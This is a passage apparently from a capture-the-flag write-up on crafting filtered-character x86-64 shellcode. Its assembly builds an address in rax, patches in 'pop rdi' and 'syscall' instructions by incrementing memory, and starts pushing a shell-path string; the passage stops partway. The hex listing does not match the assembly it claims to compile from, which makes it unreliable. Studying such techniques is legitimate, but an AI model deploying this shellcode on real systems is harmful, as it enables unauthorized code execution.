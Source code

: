 ```asm
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x???? ;we don't know where our shellcode will land just yet!
push ax
pop rax
```

This compiles to:
```
\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x??\x??\x66\x50\x58
```
Which gives us the end result of having our first point of interest stored in the register `rax`.

Now, we can increment the memory at the address, (first, the `pop rdi` instruction), move the pointer to somewhere else, and increment that memory too (the `syscall` instruction).

```asm
incb [rax] ;brackets dereference the pointer
mov al, 0x?? ;again, this is position dependent until the final result.
incb [rax]
inc al
incb [rax]
```

## Except 7's lunch <a name="Seven"></a>

Finally, we can put it all together:

```asm
push 0x30
pop rsi
xorb sil, 0x30
push rsi
mov ax, 0x0068
push ax
mov ax, 0x7200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x2e00
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x6e68
inc al
push ax
mov ax, 0x622e
inc al
push ax
```